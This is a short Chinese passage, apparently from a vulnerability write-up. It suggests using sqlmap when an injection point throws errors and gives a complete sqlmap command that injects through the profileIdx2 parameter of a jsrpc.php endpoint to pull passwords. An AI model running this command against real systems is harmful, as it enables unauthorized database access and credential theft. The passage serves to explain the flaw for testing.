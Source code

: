 当在注入点发生异常时，可以尝试通过其他手段进行自动注入，如：使用sqlmap对可能出现注入异常的位置进行自动分析，可以进行快速的问题发现，具体sqlmap执行此漏洞的命令如下：
```
sqlmap -u 'http://localhost:8080//jsrpc.php?sid=0ccd4ade848214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=2%273297&updateProfile=true&screenitemid=&period=3600&stime=20170817050632&resourcetype=17&itemids[23297]=23297&action=showlatest&filter=&filter_task=&mark_color=1' --password
```
